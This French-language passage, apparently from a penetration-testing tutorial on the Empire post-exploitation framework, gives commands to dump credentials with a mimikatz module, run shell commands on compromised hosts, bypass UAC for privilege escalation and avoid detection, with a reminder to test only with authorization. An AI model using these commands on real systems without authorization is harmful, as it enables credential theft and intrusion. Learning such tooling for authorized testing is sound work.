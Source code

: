 ***

### 📋 Étape 4 : Exemples Pratiques

***

#### 1. Collecter des Hashes de Mots de Passe

1. **Charger le module** :
   *   Commande :

       ```bash
       usemodule powershell/credentials/mimikatz/logonpasswords
       ```
2. **Configurer et exécuter** :
   * Configurez l’agent cible et exécutez.

***

#### 2. Exécuter des Commandes sur un Système Compromis

1. **Sélectionner un agent actif** :
   *   Commande :

       ```bash
       interact <agent_name>
       ```
2. **Envoyer une commande** :
   *   Exemple :

       ```bash
       shell whoami
       ```
   * **Explication** : Exécute la commande `whoami` sur le système compromis.

***

#### 3. Escalader les Privilèges

1. **Utiliser un module d’escalade** :
   *   Exemple :

       ```bash
       usemodule powershell/privesc/bypassuac
       ```
2. **Configurer et exécuter le module**.

***

### 📖 Bonnes Pratiques

1. **Évitez d'être détecté** :
   * Limitez l’utilisation de commandes bruyantes pour éviter d’alerter les systèmes de sécurité.
   * Configurez des options comme des délais entre les connexions.
2. **Testez uniquement avec autorisation** :
   * Obtenez les permissions nécessaires pour éviter des implications légales.
3. **Protégez vos agents** :
   *   Supprimez les agents inutilisés avec :

       ```bash
       kill <agent_name>
       ```
